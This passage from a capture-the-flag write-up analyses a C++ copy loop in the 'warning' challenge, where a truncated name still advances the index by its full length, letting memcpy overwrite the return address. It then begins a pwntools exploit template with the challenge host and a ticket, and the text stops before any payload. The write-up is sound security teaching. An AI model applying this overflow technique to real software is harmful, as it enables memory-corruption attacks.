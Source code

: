 ```cpp
        fgets(name, sizeof(name), stdin);

		ulen = strnlen(name, sizeof(name));
#endif
        // Error checking, thats good
        if((uptr - uncompressed) > uncomp_len){
            return;
        }
        strncpy(uptr, name, uncomp_len - (uptr - uncompressed));
        // C++ but pointer math? :thinking_face:
        uptr += ulen;
		*uptr++ = '\0';

        bptr += pos;

        memcpy(uptr, bptr, 10);

        bptr += 10;
        uptr += 10;
    }

    return;
}
```

This copies from `buf1` into `buf2`, 10 characters at a time.
It also allows us to input a `name` every iteration, which is also written into `buf2` and advances the index.

There is bounds checking so that an iteration will not start if our destination index is out of range.
There is also bounds checking to ensure we do not write a `name` past the end of the buffer.
However, if data from a `name` would overflow the buffer, it is truncated, but the index is advanced by the original length, allowing it to go well beyond the end of the buffer.
This will end the loop, but not before we call `memcpy` with the updated index.
We can use this to copy the address of `get_flag` and overwrite the stored return address.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host warning.quals2023-kah5Aiv9.satellitesabove.me --port 5300 warning_public/challenge/warning
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('warning_public/challenge/warning')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'warning.quals2023-kah5Aiv9.satellitesabove.me'
port = int(args.PORT or 5300)
ticket = b'ticket{yankee7041lima4:GPlMbJ-nYgbxGvmgdEAk78TXigjS1dHQcFeIEZuNsz18UCydXXAVQu4KvjwnEGnxhw}'

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```